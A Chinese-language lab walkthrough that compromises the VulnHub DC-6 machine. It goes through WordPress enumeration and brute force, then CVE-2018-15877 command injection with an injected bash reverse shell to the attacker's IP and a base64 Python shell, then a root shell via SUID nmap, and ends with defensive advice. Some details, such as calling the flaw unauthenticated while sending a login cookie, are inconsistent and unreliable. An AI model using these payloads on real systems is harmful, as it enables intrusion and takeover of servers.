

## 免责声明

本文提供的渗透测试技术与方法仅供学习研究与授权安全测试使用。**严禁**利用文中技术对未授权系统进行任何形式的攻击。读者因不当使用文中技术所造成的一切后果（包括但不限于法律纠纷、服务中断、数据丢失）均与作者无关。靶机 [DC-6](https://www.vulnhub.com/entry/dc-6,315/) 来自 VulnHub 平台，仅作渗透测试实训用途。

## 前言

DC-6 是 VulnHub 上 DC 靶机系列的第六台，由 [DCAU](https://www.vulnhub.com/author/dcau,596/) 制作。相比前作，DC-6 引入了 **WordPress 插件漏洞**作为核心突破口，结合 Linux 本地提权。靶机难度为**初学者到中级**，非常适合练习 Web 应用安全与 Linux 提权。本文记录从信息收集到获取 root 的全流程。

## 环境搭建

| 组件     | 说明                              |
| -------- | --------------------------------- |
| 攻击机   | Kali Linux 2024.x (10.0.2.15)     |
| 靶机     | VulnHub DC-6 (VirtualBox/VMware)  |
| 网络模式 | NAT 网络（同网段）                |

解压 OVA 导入 VirtualBox 或 VMware，确保目标与 Kali 互通即可。DC-6 启动后不会直接显示 IP，需通过扫描发现。

## 渗透流程图



## 一、信息收集

### 1.1 主机发现

使用 `arp-scan` 扫描本地网段，识别存活主机：

```bash
sudo arp-scan -l
# 或
sudo netdiscover -r 10.0.2.0/24
```

输出示例：

```
10.0.2.5   08:00:27:ab:cd:ef   PCS Systemtechnik GmbH
10.0.2.15  08:00:27:12:34:56   PCS Systemtechnik GmbH  # Kali
```

排除自身 IP 后，`10.0.2.5` 即 DC-6 靶机。写入环境变量方便后续操作：

```bash
export TARGET=10.0.2.5
```

### 1.2 端口扫描

```bash
nmap -p- -T4 -A -v $TARGET -oN nmap-full.txt
```

关键结果：

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

靶机仅开放 **22 (SSH)** 与 **80 (HTTP)**，攻击面集中在 Web。

### 1.3 Web 指纹识别

浏览器访问 `http://10.0.2.5`，页面标题："Dumy's Blog | Just another WordPress site"。使用 whatweb 确认：

```bash
whatweb http://$TARGET
```

目标确认为 **WordPress 站点**，运行于 Apache/2.4.25 (Debian)。

## 二、漏洞发现

### 2.1 hosts 配置

DC-6 的 WordPress 内部绑定域名为 `wordy`，直接通过 IP 访问会出现样式丢失和链接异常。需配置 `/etc/hosts`：

```bash
echo "10.0.2.5  wordy" | sudo tee -a /etc/hosts
```

此后通过 `http://wordy` 访问即可获得完整页面。这也是 VulnHub 官方的初始提示。

### 2.2 WPScan 枚举用户

```bash
wpscan --url http://wordy/ --enumerate u
```

发现 5 个 WordPress 用户：`admin`、`graham`、`mark`、`sarah`、`jens`。官方提示密码字典可从 `rockyou.txt` 生成，DC-6 提供了精简字典线索——在 Kali 中找到官方预留的字典文件后暴力破解。

### 2.3 暴力破解与后台登录

```bash
wpscan --url http://wordy/ -U users.txt -P dc6-passwords.txt
```

成功获取至少一组有效凭据（如 `graham` / `sarah` / `mark` 之一），登录 `/wp-admin` 后台。当前用户权限有限，无法直接编辑主题或插件。

### 2.4 插件漏洞发现

再次运行 wpscan 枚举插件：

```bash
wpscan --url http://wordy/ --enumerate p
```

关键输出：

```
[+] activity-monitor
 | Location: http://wordy/wp-content/plugins/activity-monitor/
 | Latest Version: 3.7 (up to date)
 | Found By: Urls In Homepage (Passive Detection)

[!] Version 3.7 is vulnerable to (Unauthenticated) Command Injection
    Reference: CVE-2018-15877
```

Activity Monitor 插件 **3.7 版本**存在未授权的**命令注入漏洞**，编号 **CVE-2018-15877**。

## 三、漏洞利用（CVE-2018-15877）

### 3.1 原理分析

Activity Monitor 是一款 WordPress 后台仪表盘插件，用于展示网站活动日志。漏洞根源在于处理 AJAX 请求时，对用户可控的 `ip` 参数未做充分过滤，直接将字符串拼接到 `ping` 命令中执行。

后端伪代码：

```php
$ip = $_POST['ip'];
system("ping -c 1 " . $ip);
```

由于未使用 `escapeshellarg()` 保护，攻击者可通过分号 `;` 注入任意系统命令。**任何可访问后台的用户均可触发**，无需管理员权限。

### 3.2 手动验证

Burp Suite 截获请求，改造 POST 测试命令注入：

```
POST /wp-admin/admin-post.php HTTP/1.1
Host: wordy
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_logged_in_xxx=xxx

action=activemon_ping&ip=127.0.0.1;id
```

响应中出现 `uid=33(www-data)` 则说明命令成功执行。

### 3.3 反弹 Shell

在 Kali 监听：

```bash
nc -lvnp 4444
```

构造反弹 Payload，URL 编码后嵌入 `ip` 参数：

```
ip=127.0.0.1;bash+-c+'exec+bash+-i+%26>/dev/tcp/10.0.2.15/4444+<%261'
```

或通过 base64 编码写入 Python 反弹脚本执行：

```
ip=127.0.0.1;echo+'aW1wb3J0IHNvY2tldC...'|base64+-d>/tmp/shell.py;python+/tmp/shell.py
```

成功后获得 `www-data` Shell。升级为交互式：

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z 背景化
stty raw -echo; fg
```

## 四、权限提升

### 4.1 本地信息枚举

```bash
id                   # uid=33(www-data)
uname -a             # Linux dc-6 4.9.0-8-amd64
sudo -l              # 无可执行 sudo 权限
cat /etc/crontab     # 无可利用计划任务
```

### 4.2 SUID 文件发现

SUID 是 Linux 提权的关键——当文件设置了 SUID 位，任何用户执行时均以文件**所有者**身份运行：

```bash
find / -perm -u=s -type f 2>/dev/null
```

关键发现：

```
/usr/bin/nmap
```

**nmap 拥有 SUID root 位**，这是 DC-6 最核心的提权线索。

### 4.3 nmap SUID 提权

nmap 较老版本支持 `--interactive` 模式，可在该模式下调用系统 Shell。DC-6 预装的 nmap 正好支持此模式：

```bash
/usr/bin/nmap --interactive
nmap> !sh
# whoami
root
```

`!` 前缀使 nmap 调用系统 shell，因 nmap 以 SUID root 运行，启动的 shell 继承 root 身份。备选方案：利用 NSE 脚本 `os.execute("/bin/bash")` 或 LD_PRELOAD 劫持同样可提权。

### 4.4 获取 root

```bash
whoami && id
# root / uid=0(root)
cat /root/proof.txt
```

`/root/proof.txt` 内包含 DC-6 通关标记。

## 五、总结与防御建议

### 5.1 攻击路径回顾

```
端口扫描 → WordPress枚举 → wpscan用户/插件发现
→ 暴力破解获得后台凭证 → Activity Monitor插件CVE-2018-15877命令注入
→ 反弹Shell → nmap SUID提权 → root
```

攻击链薄弱点：

| 环节     | 弱点                       | CVE / 技术      |
| -------- | -------------------------- | ---------------- |
| 入口     | 弱密码可被暴力破解         | 字典攻击         |
| 利用点   | 插件未过滤输入，命令注入   | CVE-2018-15877   |
| 本地提权 | nmap 不当设置 SUID 位      | GTFO Bins: nmap  |

### 5.2 防御建议

1. **密码策略**：实施强密码策略，开启暴力破解登录限制（如 Limit Login Attempts Reloaded 插件）。
2. **插件管理**：及时更新或移除过时插件（Activity Monitor 已废弃，不应保留）。
3. **输入过滤**：开发者对所有外部输入使用 `escapeshellarg()` / `escapeshellcmd()` 严格转义。
4. **最小权限**：nmap 等工具不应设置 SUID root 位，除非确有必要且已充分评估风险。
5. **文件完整性监控**：部署 AIDE / Tripwire 监控 SUID 位变化等异常属性变更。
6. **Web 应用防火墙**：WAF 规则拦截 `ping` 等命令注入特征，阻止恶意请求到达应用层。

### 5.3 相关资源

- VulnHub DC-6: [https://www.vulnhub.com/entry/dc-6,315/](https://www.vulnhub.com/entry/dc-6,315/)
- CVE-2018-15877: [https://nvd.nist.gov/vuln/detail/CVE-2018-15877](https://nvd.nist.gov/vuln/detail/CVE-2018-15877)
- GTFO Bins - nmap: [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)
- WPScan: [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)

---

*本文完成于 2024 年 9 月，靶机环境稳定可复现。若有疑问欢迎交流。*
